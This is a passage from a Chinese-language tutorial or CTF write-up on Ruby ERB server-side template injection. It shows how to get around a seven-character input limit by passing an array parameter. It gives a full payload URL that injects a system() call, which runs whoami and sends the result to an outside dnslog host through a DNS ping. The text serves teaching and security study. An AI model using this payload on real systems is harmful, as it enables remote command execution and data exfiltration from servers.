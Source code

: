 ### 第二种方法

前面提到，传入的name不超过7个字符，并且符合这种形式`name=1234567&do=1234567 is working`。而ERB模板渲染的字符`<%=%>`就用了5个，那只剩下两个字符可用。

对于这点，可以使用数组绕过。Ruby中存在数据类型自动强制转换机制。

```ruby
$a = "mon123"
$b = Array["aaa","bbb","ccc"]
puts "$a: #{$a[0,3]}"
puts "$b: #{$b[0,3]}"
```

结果

```
$a: mon
$b: ["aaa","bbb","ccc"]
```

如果传入数组，那就从原本的7个字符，变成了7个数组长度

payload：

```
/work?name[]=<%=system('ping -c 1 `whoami`.xuu1g4.dnslog.cn')%>&name[]=1&name[]=2&name[]=3&name[]=4&name[]=5&name[]=6&do=["<%=system('ping -c 1 `whoami`.xuu1g4.dnslog.cn')%>", "1", "2", "3", "4", "5", "6"] is working
```



## 小结

1. [Ruby ERB模板注入](https://forum.butian.net/share/977)
2. [手把手教你如何完成Ruby ERB模板注入](https://zhuanlan.zhihu.com/p/29440823)
